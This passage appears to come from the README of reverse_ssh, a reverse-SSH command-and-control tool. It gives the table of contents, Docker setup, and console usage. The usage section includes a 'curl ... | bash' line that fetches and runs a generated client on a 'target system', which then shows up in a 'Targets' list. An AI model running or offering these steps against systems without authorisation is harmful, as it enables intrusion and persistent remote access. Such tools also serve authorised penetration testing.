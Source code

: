     - [Webhooks](#webhooks)
    - [Tun (VPN)](#tun-vpn)
    - [Fileless execution (Clients support dynamically downloading executables to execute as shell)](#fileless-execution-clients-support-dynamically-downloading-executables-to-execute-as-shell)
      - [Supported URI Schemes](#supported-uri-schemes)
- [Help](#help)
  - [Windows and SFTP](#windows-and-sftp)
  - [Server started with `--insecure` still has `Failed to handshake`](#server-started-with---insecure-still-has-failed-to-handshake)
  - [Foreground vs Background](#foreground-vs-background)
- [Donations, Support, or Giving Back](#donations-support-or-giving-back)

## TL;DR

### Setup

The docker release is recommended as it includes the right version of golang, and a cross compiler for windows.
```sh
# Start the server
docker run -p3232:2222 -e EXTERNAL_ADDRESS=<your.rssh.server.internal>:3232 -e SEED_AUTHORIZED_KEYS="$(cat ~/.ssh/id_ed25519.pub)" -v ./data:/data reversessh/reverse_ssh
```

or docker compose:

```yaml
services:
  reversessh:
    image: reversessh/reverse_ssh
    ports:
      - "3232:2222"
    environment:
      - EXTERNAL_ADDRESS=<your.rssh.server.internal>:3232
      - RSSH_CONSOLE_LABEL=c2.label
      - RSSH_LOG_LEVEL=INFO # DISABLED, INFO, WARNING, ERROR, FATAL
      - SEED_AUTHORIZED_KEYS=${SSH_PUBLIC_KEY}
    volumes:
      - ./data:/data
```

### Basic Usage

```sh
# Connect to the server console
ssh your.rssh.server.internal -p 3232


# List all server console commands
catcher$ help

# Build a new client and host it on the in-built webserver
catcher$ link
http://192.168.0.11:3232/4bb55de4d50cc724afbf89cf46f17d25


# curl or wget this binary to a target system then execute it,
curl http://192.168.0.11:3232/4bb55de4d50cc724afbf89cf46f17d25.sh |  bash

# then we can then list what clients are connected
catcher$ ls
                                 Targets
+------------------------------------------+-----------------------------------+
| IDs                                      | Version                           |
+------------------------------------------+-----------------------------------+
```